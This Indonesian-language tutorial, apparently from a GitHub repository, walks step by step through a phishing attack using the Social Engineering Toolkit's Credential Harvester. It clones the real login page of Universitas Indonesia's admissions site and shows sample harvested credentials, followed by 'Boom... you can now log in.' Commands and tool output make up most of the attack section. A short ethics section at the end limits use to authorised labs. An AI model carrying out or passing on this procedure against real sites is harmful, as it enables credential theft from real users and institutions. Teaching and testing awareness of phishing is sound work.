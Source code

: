 # Eksploitasi dengan Metasploit + Social Engineering Toolkit (SET)

## A. Apa itu Social Engineering?

[Social Engineering](https://en.wikipedia.org/wiki/Social_engineering_(security)) atau yang sering disebut soceng adalah seni memanipulasi manusia agar memberikan informasi sensitif atau menjalankan tindakan tertentu.

Contoh serangan social engineering:

- Phishing (email atau website palsu)
- Fake update (pembaruan sistem palsu)
- USB drop (menyebar USB yang berisi malware)
- Malicious file (file berbahaya seperti `PDF`, `EXE`, atau `DOCX`)

## B. Instalasi dan Setup

### 1. Install SET (Social Engineering Toolkit):

   ```
   sudo apt update
   sudo apt install set
   ```

### 2. Setup dan jalankan Metasploit:

  ```
  sudo msfdb init
  sudo msfconsole
  ```

  > Kalau belum diinstal Metasploit-nya, instal dengan: `sudo apt-get install metasploit-framework`

## C. Skema Serangan Umum

Contoh skenario:

- Penyerang membuat situs phishing kloning (fake login page) menggunakan `SET`.
- Tautan palsu dikirim melalui email yang menyamar sebagai aplikasi populer.
- Korban membuka tautan dan mengisi data login di situs palsu tersebut.
- Alternatif lain: korban diminta mengunduh `update sistem` palsu yang ternyata berisi `backdoor`.

## D. Praktik: Phishing

1. Jalankan tool SET:

   ```
   sudo setoolkit
   ```

   Tunggu sampai muncul menu utama dari tool SET:

   ```
      It's easy to update using the PenTesters Framework! (PTF)
   Visit https://github.com/trustedsec/ptf to update all your tools!


    Select from the menu:

      1) Social-Engineering Attacks
      2) Penetration Testing (Fast-Track)
      3) Third Party Modules
      4) Update the Social-Engineer Toolkit
      5) Update SET configuration
      6) Help, Credits, and About

     99) Exit the Social-Engineer Toolkit

   set> 
   ```

   2. Ini merupakan menu utama dari tool SET. Untuk melakukan serangan phishing pilih menu nomer `1` yaitu `Social-Engineering Attacks`.

   ```
      It's easy to update using the PenTesters Framework! (PTF)
   Visit https://github.com/trustedsec/ptf to update all your tools!


    Select from the menu:

      1) Spear-Phishing Attack Vectors
      2) Website Attack Vectors
      3) Infectious Media Generator
      4) Create a Payload and Listener
      5) Mass Mailer Attack
      6) Arduino-Based Attack Vector
      7) Wireless Access Point Attack Vector
      8) QRCode Generator Attack Vector
      9) Powershell Attack Vectors
     10) Third Party Modules

     99) Return back to the main menu.

   set>
   ```

   3. Setelah masuk ke dalam menu `Social-Engineering Attacks`, langkah selanjutnya pilih menu nomer `2` yaitu `Website Attack Vectors`.

   ```
      It's easy to update using the PenTesters Framework! (PTF)
   Visit https://github.com/trustedsec/ptf to update all your tools!


    Select from the menu:

      1) Java Applet Attack Method
      2) Metasploit Browser Exploit Method
      3) Credential Harvester Attack Method
      4) Tabnabbing Attack Method
      5) Web Jacking Attack Method
      6) Multi-Attack Web Method
      7) HTA Attack Method

     99) Return to Main Menu

   set:webattack>
   ```

   4. Pada menu ini kita pilih menu nomer `3` yaitu `Credential Harvester Attack Method`.

   ```
    The first method will allow SET to import a list of pre-defined web
    applications that it can utilize within the attack.

    The second method will completely clone a website of your choosing
    and allow you to utilize the attack vectors within the completely
    same web application you were attempting to clone.

    The third method allows you to import your own website, note that you
    should only have an index.html when using the import website
    functionality.
   
      1) Web Templates
      2) Site Cloner
      3) Custom Import

     99) Return to Webattack Menu

   set:webattack>
   ```

   5. Pada menu ini kita pilih menu nomer `2` yaitu `Site Cloner`.

   ```
   [-] Credential harvester will allow you to utilize the clone capabilities within SET
   [-] to harvest credentials or parameters from a website as well as place them into a report

   -------------------------------------------------------------------------------
   --- * IMPORTANT * READ THIS BEFORE ENTERING IN THE IP ADDRESS * IMPORTANT * ---

   The way that this works is by cloning a site and looking for form fields to
   rewrite. If the POST fields are not usual methods for posting forms this 
   could fail. If it does, you can always save the HTML, rewrite the forms to
   be standard forms and use the "IMPORT" feature. Additionally, really 
   important:

   If you are using an EXTERNAL IP ADDRESS, you need to place the EXTERNAL
   IP address below, not your NAT address. Additionally, if you don't know
   basic networking concepts, and you have a private IP address, you will
   need to do port forwarding to your NAT IP address from your external IP
   address. A browser doesn’t know how to communicate with a private IP
   address, so if you don't specify an external IP address if you are using
   this from an external perspective, it will not work. This isn't a SET issue
   this is how networking works.

   set:webattack> IP address for the POST back in Harvester/Tabnabbing [192.168.1.42]:
   ```

   6. Pada tahap ini, kita diminta untuk memasukkan alamat IP yang akan digunakan sebagai tujuan `POST back`. Anda bisa langsung menekan `Enter` untuk menggunakan alamat IP default (yang terdeteksi otomatis).

   ```
   [-] SET supports both HTTP and HTTPS
   [-] Example: http://www.thisisafakesite.com
   set:webattack> Enter the url to clone: 
   ```

   7. Pada tahap ini kita diminta untuk memasukkan alamat url yang mau kita clone. di sini sebagai contoh, kita masukkan url login dari website login `SIMAK UI` (Universitas Indonesia).

   ```
   set:webattack> Enter the url to clone: https://penerimaan.ui.ac.id/login

   [*] Cloning the website: https://penerimaan.ui.ac.id/login
   [*] This could take a little bit...

   The best way to use this attack is if username and password form fields are available. Regardless, this captures all POSTs on a website.
   [*] The Social-Engineer Toolkit Credential Harvester Attack
   [*] Credential Harvester is running on port 80
   [*] Information will be displayed to you as it arrives below:
   ```

   8. Tahap selanjutnya adalah mengirim tautan phishing kepada target, misalnya melalui `email` atau `pesan instan`. Tunggu sampai korban memasukkan `username/email` dan `password` yang benar.

   ```
   [*] WE GOT A HIT! Printing the output:
   POSSIBLE USERNAME FIELD FOUND: username=adminui@ui.ac.id
   POSSIBLE PASSWORD FIELD FOUND: password=adminui123
   PARAM: s=LOGIN
   PARAM: csrf_token=3e5281c44fe387ed6cc384978fd1257d82d501dc5147e86766fc578b3cf0e6ea
   [*] WHEN YOU'RE FINISHED, HIT CONTROL-C TO GENERATE A REPORT.
   ```

   Boom...! Selamat Anda sudah mendapatkan `username/email` dan `password` yang benar. Sekarang Anda bisa login ke website SIMAK UI dengan kredensial tersebut:

   ```
   username=adminui@ui.ac.id
   password=adminui123
   ```

## E. Etika & Hukum

- Dilarang menjalankan serangan ini di dunia nyata tanpa izin tertulis.
- Praktik hanya di lab/lab simulasi.
- Tujuan pembelajaran dan pengujian keamanan.
